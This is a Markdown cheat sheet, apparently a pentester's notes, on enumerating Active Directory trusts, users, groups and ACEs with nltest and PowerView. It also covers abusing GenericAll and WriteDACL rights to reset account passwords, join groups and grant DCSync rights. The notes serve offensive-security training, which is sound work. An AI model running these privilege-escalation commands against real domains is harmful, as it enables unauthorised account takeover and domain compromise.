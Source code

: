 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: AD_Enum
---
```



<span style="font-size: 35px; color:red"><b>AD Enumeration</b></span>
&nbsp;
### <span style="font-size: 25px; color:white"><b>Enumerate the forest</b></span>
```
nltest /trusted_domains
```
OR
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

OR with powerview:
```
Get-DomainTrust -API
```

OR
```
Get-DomainTrust
```

to Get details about the domain:
```
Get-DomainUser -Domain <domain>
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate Users</b></span>
<span style="color:red"><b>From Linux:</b></span>
Queries target domain for users and users data.
```shell
GetADUsers.py -all <DOMAIN>/<USER_NAME> -dc-ip <IP>
```

<span style="color:red"><b>From Windows:</b></span>
Prints the often-lengthy list of ACEs (<span style="color:red"><b>From Linux:</b></span>Access Control Entries</span>) applied to the object.
```powershell
Get-ObjectAcl -Identity <user>
```

To see usernames or group from SID:
```powershell
ConvertFrom-SID <SID_EXAMPLE_S-1-5-21-3776646582-2086779273-4091361643-553>
```
To do the same thing but for all SIDs dumped from _Get-ObjectAcl_:
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```
(to get only the ones with GenericAll, add `| findstr -i "GenericAll ObjectDN"` at the ent of the block above)

To emunerate all ACEs for all domain users:
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
I.E. OUTPUT:
```
AceType               : AccessAllowed
ObjectDN              : CN=TestService1,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1604
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
```
Means that the current user has GenericAll access (fullcontrol) to the TestService1 account.
In this case, you can change the password of the testService1 account:
```powershell
net user <CN_NAME> <PASSWORD> /domain
```
You can do the same using _ForceChangePassword_ and <span style="color:red">AllExtendedRights</span> access rights.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate Groups</b></span>

Enumerate all domain groups that our current user has explicit access rights to:
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
(Check for AceType: AccessAllowed, CN= something and Identity = user in the output)
Add yourself to the group:
```powershell
net group testgroup <user> /add /domain
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Abusing WriteDACL access right</b></span>
After [enumerating all ACEs for all domain users](####Get-ObjectAcl), check for <span style="color:red">ActiveDirectoryRights : WriteDacl</span>.
If you find any, that right allows us to add new access rights like GenericAll:
```powershell
Add-DomainObjectAcl -TargetIdentity <CN_NAME> -PrincipalIdentity <CURRENT_USER> -Rights All
```
You can use the same function to apply additional access rights such as GenericWrite or DCSync if the targeted object is the domain object.
Dump the DACL again to verify that GenericAll was applied:
```
Get-ObjectAcl -Identity <CN> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
And check the <span style="color:red">ActiveDirectoryRights: GenericAll</span> is there.
You can now change the CN password.

---
